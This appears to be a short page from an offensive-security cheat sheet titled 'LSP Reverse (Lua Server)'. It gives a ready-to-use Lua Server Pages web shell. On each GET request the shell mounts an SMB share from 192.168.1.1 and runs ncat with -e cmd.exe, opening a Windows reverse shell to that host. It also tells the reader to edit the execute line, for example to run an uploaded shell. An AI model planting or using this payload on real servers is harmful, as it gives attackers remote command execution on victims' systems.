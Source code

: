 ```yaml
---
title: LSP Reverse (Lua Server)
parent: Shell (Reverse/Others)
layout: default
nav_order: 14
---
```


Edit the execute part as required, for example executing uploaded shell

```
<div style="margin-left:auto;margin-right: auto;width: 350px;">

<div id="info">
<h2>Lua Server Pages Reverse Shell</h2>
<p>Delightful, isn't it?</p>
</div>

<?lsp if request:method() == "GET" then ?>
   <?lsp os.execute("cmd.exe /c net use x: \\\\192.168.1.1\\SMB /user:user pass & x:\\ncat.exe 192.168.1.1 135 -e cmd.exe") ?>
<?lsp else ?>
   You sent a <?lsp=request:method()?> request
<?lsp end ?>

</div>
```